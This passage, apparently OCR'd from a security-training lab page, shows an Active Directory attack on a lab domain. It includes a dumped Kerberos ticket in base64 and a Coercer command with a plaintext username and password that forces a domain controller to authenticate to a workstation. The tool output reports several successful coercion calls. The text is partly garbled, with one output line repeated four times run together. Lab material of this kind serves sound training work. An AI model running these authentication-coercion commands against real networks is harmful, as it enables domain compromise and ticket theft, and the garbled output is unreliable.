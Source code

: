 ```
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  RenewTill             :  25/12/2022 23.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIE2jCCBNagAwIBBaEDAgEWooID5zCCA+NhggPfMIID26ADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0
GwtFQUdMRS5MT0NBTKOCA6EwggOdoAMCARKhAwIBAqKCA48EggOLxoWz+JE4JEP9VvNlDvGKzqQ1BjjpjjO03haKFPPeszM4Phkb    QQBPfixBqQ3bthdsizmx3hdjNzFVKnUOK2h2CDFPeUia+0rCn1FllimXQwdEFMri7whC2qA4/vy52Y2jJdmkR7ZIRAeU5Yfm373L
iEHgnX4PCA94Ck/BEwUY0bk6VAWkM2FSPgnuiCeQQ4yJMPa3DK6MHYJ/1kZy+VqxwSqov/tVhATshel1vXpr4rz03ofgNtwLDYb+    K5AGYSbSct5w1jTWtGAicCCr1vpcUguIWH0Nh1lQ+tZccVtEtsrjZ/jwCKsadQWIFwhPOnVpf5drUlav1iCXmxWqQr5glW/IOOE1
lHsBolieGSyY20ZHBYjXflCGkO13mRwqO3rQ5KMs8HrC3Aqu7Popaw29at0vzZLinYnWnHUn01hh5e3QyIkqIH3CBvaPbl3RukZ7    jZRBm6BVF7R5KEWp+6Gg2joP6WvXDBCIzqL3jmxQ8NVoeeidgnBuZKpYL45E8jJjxbW4t9D8EdlX9Xu+fj/Fazw08HtRkzwG30vE
	<SNIP>
	<SNIP>
	<SNIP>
	
[*] Ticket cache size: 4
```
Next, we need to know the IP address of WS001, which we can be obtain by running ipconfig. Once known, we will switch to the Kali machine to execute Coercer towards DC1, while we force it to connect to WS001 if coercing is successful:

```
Dennis-44@htb[/htb]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[dc1.eagle.local] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to ws001.eagle.local ...
   [>] Pipe '\PIPE\lsarpc' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
   [>] Pipe '\PIPE\netdfs' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...    [>] Pipe '\PIPE\spoolss' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

[+] All done!
```